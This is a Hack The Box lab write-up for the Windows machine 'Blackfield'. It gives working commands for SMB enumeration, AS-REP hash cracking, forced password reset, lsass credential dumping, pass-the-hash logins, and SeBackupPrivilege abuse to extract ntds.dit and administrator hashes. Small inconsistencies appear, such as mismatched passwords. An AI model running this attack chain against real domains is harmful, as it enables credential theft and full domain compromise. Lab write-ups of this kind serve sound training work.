{HackTheBox_Machine_WriteUp}

---

| Machine Name | Blackfield    |
| ------------ | ------------- |
| OS           | Windows       |
| Difficulty   | Hard          |
| IP Address   | 10.129.229.17 |
| Release Date | 6 June 2020   |
| Pwned Date   | 20 May 2026   |

---

#### Table of Contents 

##### 1. Executive Summary
##### 2. Reconnaissance
   ###### 2.1  Port Scanning
   ###### 2.2  Service Enumeration
   ###### 2.3  Web Enumeration  
##### 3. Initial Access 
##### 4. Lateral Movement 
##### 5. Privilege Escalation
##### 6. Post-Exploitation 
##### 7. Proof's
##### 8. References


---

#### 1. Executive Summary

This report documents the penetration testing process of the "Blackfiled" machine from Hack The Box.The objective was to identify vulnerabilities and exploit them to achieve full system compromise (user + root). 
On this machine we will find smb null access,that will leads us to the user enumeration.Bloodhound data will help us to compromise the user audit2020.For privilege escalation on server we have seBackup privilege enabled on machine that lead's to root compromise.

---

#### 2. Reconnaissance

##### 2.1. Port Scanning

```
sudo nmap -sC -sV -p- 10.129.229.17 --min-rate 5000 -oN nmap_scan
```

Open Port's : 
53,88,135,389,445,593,3268,5985

Domain : blackfield.local

---

#### 3. Initial Access

We are trying smn null attack.

```
smbmap -u guest -H 10.129.229.17
```

We have found a share profiles which has read only access.

```
smbclient -N //10.129.229.17/profiles$ -c ls | awk '{print  }' > user.list
```

The user list we created from Directories on the share profiles.

Here we are trying to see if any account have Kerberos pre-authentication disabled on server or not.

```
hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt
```

**Password Found for 'support' user :**

---

#### 4. Lateral Movement

Bloodhound data reveal's that support user has force password change permission over user audit2020.

```
bloodyad --host 10.129.229.17 -d blackfield.local -u support -p '#00^BlackKnight' set password audit2020 'Pass@123'

```

We have changed the audit2020 user password as koham@123.

I have checked that winrm not accessible for audit2020,so we have to check for smb access and shares available on it.

```
nxc smb 10.129.229.17 -u 'audit2020' -p 'koham@123' --shares
```

Exposed the forensic share.

```
###
smbclient //10.129.229.17/forensic -U 'blackfiled.local\audit2020'
```

smbclient will give us ability to download lsass.zip file from forensic share.

	Extracting the hashes for users from lsass.DMP file.

```
pypykatz lsa minidump lsass.DMP

pypykatz lsa minidump lsass.DMP | grep 'NT:' | awk '{ print $2 }' > hash.list

pypykatz lsa minidump lsass.DMP | grep 'Username:' | awk '{ print $2 }' > username.list

```

Checking that hashes against smb :

```
nxc smb 10.129.229.17 -u username.list -H hash.list
```

**Hash for svc_backup retrieved.**

```
evil-winrm -i 10.129.229.17 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'
```

**Shell as svc_backup.**

---

#### 5. Privilege Escalation

On svc_backup shell, i have checked privileges for user and found sebackup privilege enabled.

We can get administrator access through dumping hashes from ntds.dit file.

I have created a ntds.dsh file.

```
set context persistent nowriters
add volume c: alias koham
create
expose %koham% z:
```

uniz2dos ntds.dsh

Upload ntds.dsh file to server.

```
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll
```

```
import-module .\SeBackupPrivilegeCmdLets.dll
import-module .\SeBackupPrivilegeUtils.dll
```

```
diskshadow /s ntds.dsh

Copy-FileSeBackupPrivilege z:\windows\ntds\ntds.dit c:\windows\temp\NTDS

Copy-FileSeBackupPrivilege z:\windows\system32\config\SYSTEM

Copy-FileSeBackupPrivilege h:\windows\system32\config\SAM c:\windows\temp\SAM

```

Download that files on kali to dump hashes.

```
python3 secretsdump.py -security security -sam sam -system system LOCAL
```

We will get Administrator hash.

```
impacket-wmiexec -hashes :184fb5e5178480be64824d4cd53b99ee administrator@10.129.229.17 
```

**Shell as Administrator Obtained.**

---

#### 6. Proof's



































---

{HackTheBox_Machine_WriteUp}